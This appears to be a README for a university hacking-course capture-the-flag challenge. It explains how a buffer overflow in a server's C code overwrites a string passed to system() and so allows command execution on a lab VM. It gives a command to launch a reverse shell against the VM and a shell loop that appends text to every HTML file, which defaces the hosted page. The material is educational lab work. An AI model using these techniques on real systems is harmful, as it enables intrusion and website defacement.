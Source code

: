 # MU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./hack_terminal` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.

Run `python3 reverse_shell.py 192.168.56.101 1234` to launch a reverse shell of the VM :
![reverse_shell](screenshots/reverse_shell.png)

## Explanations

The final goal of this challenge is to manage to write our name on the html page hosted at the IP address `192.168.56.101`.

Let's look at the 3 first strings declared at the beginning of the code source :
```
char buf[256] = {0};
char command[] = "uptime | sed 's/.*up \[^,]*\, .*/\\1/'";
char greeting_text[128];
...
strcat(greeting_text, buf);
...
system(command);
```
`buf` contains the data sent by a client and is then copied in `greeting_text`. By experimentation, sending a too long name to the VM breaks the latter's answer about the duration the computer has been running. As `greeting_text` has a smaller length in the memory than `buf`, copying `buf` may dangerously overwrite `command` which would be stored right after `greeting_text` in the memory then. Thus, a vulnerability is to send a big enough amount of data to the server until overwritting `command` and run whatever shell command one wants on the VM.

The file _hack_terminal.c_ is a terminal-like program of the VM. By executing  `./hack_terminal`, one will be able to run shell commands on the VM as if he/she was actually typing in the VM's terminal. To add a name to the page hosted at the IP address `192.168.56.101`, just type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` in the "hacked terminal"; this command finds all HTML files and edits them by ending at the end `YOUR NAME`.
